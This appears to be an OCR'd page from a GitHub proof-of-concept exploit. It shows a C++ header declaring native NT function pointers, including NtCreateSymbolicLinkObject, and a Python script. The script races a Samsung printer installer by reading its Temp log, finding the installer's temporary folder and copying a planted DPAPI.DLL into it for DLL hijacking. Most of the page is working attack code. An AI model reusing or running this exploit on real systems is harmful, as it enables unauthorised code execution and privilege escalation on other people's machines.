 ```cpp
NTSTATUS(WINAPI* _NtCreateFile)(
    PHANDLE            FileHandle,
    ACCESS_MASK        DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes,
    PIO_STATUS_BLOCK   IoStatusBlock,
    PLARGE_INTEGER     AllocationSize,
    ULONG              FileAttributes,
    ULONG              ShareAccess,
    ULONG              CreateDisposition,
    ULONG              CreateOptions,
    PVOID              EaBuffer,
    ULONG              EaLength);
NTSTATUS(WINAPI* _NtCreateSymbolicLinkObject)(
    OUT PHANDLE             pHandle,
    IN ACCESS_MASK          DesiredAccess,
    IN POBJECT_ATTRIBUTES   ObjectAttributes,
    IN PUNICODE_STRING      DestinationName);
NTSTATUS(WINAPI* _NtClose)(
    HANDLE Handle
    );
```

NtDefine.h

```python
# python 3.8.2
import os
import shutil
import getpass

USER_NAME = getpass.getuser()
LOG_FILE = f'C:\\Users\\{USER_NAME}\\AppData\\Local\\Temp\\SamsungPrinterInstaller.exe.log'
DLL_NAME = 'DPAPI.DLL'


def checkFile(path : str) -> str:
    while True:
        if os.path.exists(path):
            try:
                with open(path, 'r', encoding='utf-16le') as f:
                    data = f.read()
                    slice_index = data.rfind(r'Latest_WIA\SPNTInst.exe')
                    if slice_index == -1:
                        continue

                    slice_data = data[:slice_index + len('Latest_WIA')]
                    temp_path = slice_data[data.find('= [')+3:]
                    return temp_path
            except:
                continue


if __name__ == '__main__':
    if os.path.exists(LOG_FILE):
        os.remove(LOG_FILE)

    temp_path = checkFile(LOG_FILE)
    print('[+] Found Log File')

    dll_path = temp_path
    dll_path += '\\' + DLL_NAME

    shutil.copy(DLL_NAME, dll_path)
    print('[+] DLL Copy Success')
```